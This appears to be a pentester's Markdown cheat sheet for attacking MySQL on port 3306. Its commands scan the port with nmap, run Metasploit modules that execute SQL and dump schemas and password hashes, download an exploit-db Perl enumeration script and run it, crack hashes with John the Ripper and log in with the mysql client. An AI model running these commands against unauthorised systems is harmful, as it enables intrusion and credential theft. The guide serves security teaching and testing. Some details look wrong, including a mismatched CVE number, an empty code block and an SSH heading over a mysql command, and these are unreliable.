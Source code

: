 # MySQL / Port 3306
MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL)

## Workflow
Provided that necessary credentials such as username and password is already found, or anonymous login is allowed.

1. Port scan with nmap
2. Enumerate useful information with several tools
3. Crack the password hash of a user
4. Access MySQL server with credentials


## Advance preparation
```
export rhost=[RHOST IP]
```

## Port scan
Check if port 3306 is open
```
sudo nmap -sS -sV -O $rhost
```

## Enumeration
### Metasploit
Execute arbitrary commands on the MySQL server
```
use auxiliary/admin/mysql/mysql_sql
```

### Nmap ([MySQL-Enum](https://nmap.org/nsedoc/scripts/mysql-enum.html))
```
```

### CVE : [2015-5615](https://www.exploit-db.com/exploits/23081)
```
wget https://www.exploit-db.com/raw/23081 -O /tmp/mysqlenum.pl
cd /tmp && perl mysqlenum.pl $rhost usernames.txt
```

To install Parallel::ForkManager:
```
sudo cpan Parallel::ForkManager
```

## Exploitation
### Metasploit
Dump the tables, and column names of the whole database
```
use auxiliary/scanner/mysql/mysql_schemadump
```

Obtain users' password hashes on the MySQL server
```
use auxiliary/scanner/mysql/mysql_hashdump
```

### Crack password hash
```
echo 'carl:*xxxxxxxxxxxxxxxxxxxxxxxxxxxxx' | tee hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Access MySQL server with SSH
```
mysql -h $rhost -u [USERNAME] -p
```

To install MySQL client:
```
sudo apt install default-mysql-client
```

